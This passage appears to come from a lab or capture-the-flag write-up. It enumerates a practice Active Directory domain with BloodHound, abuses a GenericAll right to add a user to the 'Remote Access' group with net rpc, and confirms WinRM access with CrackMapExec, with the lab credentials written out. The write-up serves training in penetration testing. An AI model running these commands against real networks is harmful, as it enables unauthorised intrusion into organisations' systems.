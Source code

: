 ```bash
❯ bloodhound-python -u 'Tracy.White' -p 'zqwj041FGX' -ns 192.168.165.30 -d nara-security.com -c all --zip --dns-timeout 50
INFO: Found AD domain: nara-security.com
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (nara.nara-security.com:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: nara.nara-security.com
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: nara.nara-security.com
INFO: Found 14 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Nara.nara-security.com
INFO: Done in 02M 48S
INFO: Compressing output into 20240815073121_bloodhound.zip
```

- Then uploaded the loot to bloodhound GUI and has shown below our user `Tracy.White` has `GenericAll` ACE to the **"Remote Access"** group. At least we would now be able to connect via `WinRM` or `RDP`  by adding our self to this groups respectively.


![](https://i.imgur.com/65sZKQh.png)


- We can carry out this operation by doing so, using the `net` tool on kali to add our self to the group and checking if this operation was successful.


```bash
# Add to group
❯ net rpc group addmem "REMOTE ACCESS" "Tracy.White" -U "nara-security.com"/"Tracy.White"%"zqwj041FGX" -S 192.168.165.30

# Confirm operation was successful
❯ net rpc group members "REMOTE ACCESS" -U "nara-security.com"/"Tracy.White"%"zqwj041FGX" -S 192.168.165.30

NARASEC\Jodie.Summers
NARASEC\Tracy.White
```

- We can then try to authenticate via `WinRM` using CrackMapExec and see if we truly have access <#. Yes we do!

```bash
❯ cme winrm 192.168.165.30 -u Tracy.White -p zqwj041FGX
SMB         192.168.165.30  5985   NARA             [*] Windows 10.0 Build 20348 (name:NARA) (domain:nara-security.com)
HTTP        192.168.165.30  5985   NARA             [*] http://192.168.165.30:5985/wsman
HTTP        192.168.165.30  5985   NARA             [+] nara-security.com\Tracy.White:zqwj041FGX (Pwn3d!)
```
